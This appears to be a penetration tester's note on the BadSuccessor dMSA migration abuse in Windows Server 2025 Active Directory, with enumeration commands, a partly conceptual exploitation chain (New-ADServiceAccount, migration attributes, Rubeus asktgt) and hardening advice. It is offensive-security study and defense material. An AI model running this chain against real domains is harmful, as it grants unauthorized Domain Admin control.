

# 12 - BadSuccessor (dMSA Migration Abuse)

## 1. Executive Summary

**BadSuccessor** (disclosed 2025) abuses the **delegated Managed Service Account (dMSA)** migration feature in Windows Server 2025 AD. dMSAs are meant to *replace* legacy service accounts; the migration mechanism makes the dMSA **inherit the privileges of the account it "succeeds."** The flaw: an attacker who can **create a dMSA** (or write the relevant attributes) in an OU they control can mark it as the successor of **any account — including a Domain Admin** — and AD will issue the dMSA tickets carrying that target's SIDs. Result: privilege escalation to DA from the ability to create an object in one OU, **without** needing any permission on the target account itself.

## 2. Concept Overview

A dMSA migration is driven by attributes like **`msDS-DelegatedMSAState`** (migration state) and a link to the **superseded** account. When a dMSA is in the "migrated/completed" state pointing at a target, the KDC includes the target's group memberships (SIDs) in the dMSA's PAC — Kerberos treats the dMSA as the legitimate successor. Because **create-child / write on a dMSA object** is the only requirement (commonly available on some OU to delegated admins), this is an OU-level → domain-level escalation.

## 3. Enumeration

```bash
# Where can I create objects / dMSAs? (delegated rights on an OU)
# BloodHound: CreateChild on an OU, or write over msDS-DelegatedManagedServiceAccount objects
Get-ADOrganizationalUnit -Filter * | %{ (Get-Acl "AD:$($_.DistinguishedName)").Access }
# Domain functional level / Server 2025 DCs present?
Get-ADDomain | select DomainMode
```

## 4. Exploitation

```bash
# Conceptual chain (tooling: SharpSuccessor / BadSuccessor PoC / Set-ADServiceAccount)
# 1) Create a dMSA in an OU you can write
New-ADServiceAccount -Name evilDMSA -DNSHostName evil.domain -KerberosEncryptionType AES256
# 2) Mark it as successor of a Domain Admin (set migration state + superseded link)
#    msDS-DelegatedMSAState → completed; link superseded account = 'Administrator'
# 3) Request a TGT as the dMSA — PAC now carries the DA's SIDs
Rubeus.exe asktgt /user:evilDMSA$ /certificate:... /getcredentials
#    (or impacket equivalent once tooling supports dMSA)
# 4) Use the DA-level ticket
```
> Server-2025-specific; verify the environment is affected and the engagement authorizes DA escalation before executing — document the path on production.

## 5. Mermaid Attack Flow



## 6. Persistence
- The dMSA remains a privileged identity; combined with gMSA/KDS persistence ([[11 - Reading GMSA and DMSA Passwords]]) it's durable.

## 7. Post-Exploitation / Data Access
- Domain Admin equivalent from a low-privileged OU foothold → entire domain.

## 8. Defense & Hardening
1. Audit and **restrict who can create dMSA objects / write to OUs** (this is the whole attack surface); remove broad CreateChild delegations.
2. Patch/track Microsoft guidance for BadSuccessor; monitor creation of dMSA objects and changes to `msDS-DelegatedMSAState` / supersession links.
3. Treat Server 2025 migration attributes as Tier-0-sensitive; alert on dMSA tickets carrying privileged SIDs.

## 9. Chaining & Related Notes
- dMSA/gMSA password angle: **[[11 - Reading GMSA and DMSA Passwords]]**. PAC/ticket cousins: **[[10 - Diamond and Sapphire Ticket Attacks]]**.
- OU/ACL delegation: **[[17 - ACL Abuse]]** (A-36).

## 10. Tools
`SharpSuccessor` / BadSuccessor PoC, `Set-ADServiceAccount`/`New-ADServiceAccount`, `Rubeus`, `bloodhound`.
